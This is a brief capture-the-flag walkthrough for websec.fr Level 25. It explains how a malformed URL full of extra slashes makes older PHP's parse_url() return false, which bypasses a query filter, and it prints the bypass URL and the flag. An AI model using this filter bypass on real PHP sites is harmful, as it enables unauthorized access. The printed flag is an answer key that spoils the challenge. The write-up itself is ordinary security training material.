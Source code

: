 # Level 25

1. First, lets check out what is written in http://websec.fr/level25/source.php
2. Then we would find out an interesting command 
```
parse_url($_SERVER['REQUEST_URI'])
```
3. If PHP < 5.6.28, parse_url() may return "False" if the url is really broken, so we are able to bypass query and get flag.
```
http://websec.fr//////level25/index.php?page=flag&send=Submit
```
4. Here is the flag : WEBSEC{How_am_I_supposed_to_parse_uri_when_everything_is_so_broooken}
